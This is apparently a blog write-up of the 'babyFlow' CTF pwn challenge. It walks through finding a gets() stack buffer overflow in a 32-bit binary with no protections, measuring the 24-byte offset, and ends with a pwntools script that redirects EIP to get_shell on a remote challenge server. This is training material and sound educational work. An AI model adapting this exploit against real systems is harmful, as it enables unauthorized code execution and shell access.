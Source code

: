 ```yaml
---
layout: post
title: "babyFlow"
date: 2023-02-18
categories: [ctf, challenge-pwn]
image: /assets/img/ctf/ictf.ninja/pwn/babyFlow/flag.png
---
```


# ictf.ninja -  babyFlow

*Category : Binary Exploitation*

Challenge called babyFlow that was done in this writeup

Let start by analyze binary with File command
![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/babyFlow.png)


From above, File Command give us three descriptions in which
- The file is running under architecture of 32 bit
- The word dynamically linked meaning that some functions are loaded from my pc
- The word not stripped meaning that binary functions' name are preserved

Let check security of binary and i can see that it is basically doesnot have any security that i need to worry about it
```
➜  pwn checksec babyFlow
[!] Could not populate PLT: invalid syntax (unicorn.py, line 110)
[*] '/home/blackninja23/Documents/ctf/ninjactf/pwn/babyFlow'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```


Open binary with ghidra, i can see that function get is used

![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/gets.png)

Use manual page of linux, `man gets`,i can see that it is vulnerable to buffer overflow
![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/getsvuln.png)

Verify by sending more 'A's to the inputs and i got segmentation fault in which it is meaning to be overflow of buffer
![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/bufferoverflow.png)

Analyze more in ghidra, i can see that i have function called get_shell in which it gives shell
![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/getshell.png)

With Logic that i have is that i need to overflow butter to the instruction pointer and give instruction pointer that address of get_shell so as to get shell

But first i need to find offset in which i would fill before affect instruction pointer.

With this, I will use cyclic command to generate random characters with different value after 4 bytes
![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/offset.png)

Second, I will use pwndbg to run my binary then send those value of size 100
*Command*
```
gdb ./babyFlow
```
After send those value, i can see that EIP take value of 'gaaa'(0x61616167)
![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/EIP.png)

Use cyclic command, we can get offset of value 24

![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/EIPo.png)

First I would check if i can overwrite after 24 bytes sent and so we generate random value of 'A','B','C'

```
➜  pwn python3 -c 'print("A"*24+"B"*4)'
AAAAAAAAAAAAAAAAAAAAAAAABBBB
```

By checking, i can see that i can overwrite its value of 'B'
![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/EIPOverwrite.png)

i need to send address of get_shell instead of value of 'B'

At this point, i will write python script in which i would send random 24 bytes and its address after 24 bytes and i will got shell on server but keep in mind, i already test it on binary
```
from pwn import *
add = ELF('./babyFlow')
#e = process('./babyFlow')
host = "143.198.219.171"
port = 5000
e = remote(host,port)
offset = 24
payload = b'A'* offset
payload +=p32(add.symbols['get_shell'])
print(add.symbols['get_shell'])
print(payload)
print(e.recvuntil(b'\n'))

e.sendline(payload)

e.interactive()
```

I got flag

![](https://blackninja23.github.io/assets/img/ctf/ictf.ninja/pwn/babyFlow/flag.png)
